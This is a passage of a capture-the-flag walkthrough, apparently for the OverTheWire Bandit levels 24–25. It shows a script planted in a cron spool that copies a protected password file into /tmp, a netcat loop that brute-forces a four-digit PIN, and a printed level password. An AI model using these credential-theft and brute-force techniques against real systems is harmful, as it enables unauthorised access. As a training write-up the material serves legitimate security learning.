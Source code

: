 5. Obtain the password through the execution of the `script` as `bandit24`.

    ```BASH
    #!/bin/bash

    cp /etc/bandit_pass/bandit24 /tmp/tmp.3qnXYcGAz3
    chmod o+r /tmp/tmp.3qnXYcGAz3/bandit24
    ```

6. `cp <temp dir>/script /var/spool/bandit24/foo`: copies the script to the directory where the cron job executes.

7. `cat <temp dir>/bandit24`: displays the content of the temporary file containing the password for `bandit24`.

    > The password for `bandit24` is `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`.

## 44 - Fuerza bruta aplicada a conexiones

### Bandit level 25

1. `cd $(mktemp -d) && touch script && chmod u+x script`: creates a temporary directory and moves to it to create an executable script in the temporary directory.

2. Brute force approach.

    - Direct.

        ```BASH
        #!/bin/bash

        for pin in {0000..9999}; do
            timeout 0.75 bash -c "echo 'VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $pin' | nc localhost 30002"

            if [ $? -eq 0 ]; then
                echo "The pin is $pin"
                break
            fi
        done
        ```

        > This solution will take $10000 * 0,75 = 7500 \text{ s } = 125 \text{ m }$.

    - Indirect.

        ```BASH
        #!/bin/bash

        if [ -f combinations.txt ]; then
            echo "" > combinations.txt
        else
            touch combinations.txt
        fi

        start=9000

        for pin in $(seq $start 9999); do
            echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $pin" >> combinations.txt
        done
